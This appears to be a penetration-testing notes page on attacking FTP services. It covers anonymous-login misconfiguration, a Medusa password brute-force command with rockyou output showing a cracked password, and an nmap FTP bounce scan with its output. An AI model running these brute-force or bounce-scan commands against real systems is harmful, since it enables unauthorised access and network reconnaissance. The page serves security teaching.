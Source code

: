 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# FTP

## Misconfigurations

### Anonymous Authentication

Anonymous login is dangerous if read and write permissions have not been set up correctly for the FTP service, this is because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

{% hint style="info" %}
To gain access with the anonymous login, use the `anonymous` username and _**no**_ password.
{% endhint %}

This may allow an attacker to access sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, the attacker would be able to find out where this file is located and execute it.

### Port Security

Modern FTP servers only accept [**PORT** ](https://www.geeksforgeeks.org/computer-networks/port-security-in-computer-network/)commands that initiate a connection from the originating host. It denies any other `PORT` commands that may try to connect to different device IPs. An individual can check for this default feature in their systems.

If this setting is disabled the server may be open to attack such as: [#ftp-bounce-attack](ftp.md#ftp-bounce-attack "mention")

## Brute-Forcing

### Using Medusa

```bash
clue@machine[~]$ medusa -u greg -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: greg Password: password [SUCCESS]
```

## FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

{% hint style="warning" %}
## Old School Attack

Modern FTP servers by default prevent this attack, but if the server is misconfigured it may be vulnerable to the FTP Bounce Attack.

[#port-security](ftp.md#port-security "mention")
{% endhint %}

Consider we are targeting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

The [nmap](../../tooling/nmap/ "mention") `-b` flag can be used to perform an FTP bounce attack:

```bash
clue@machine[~]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```
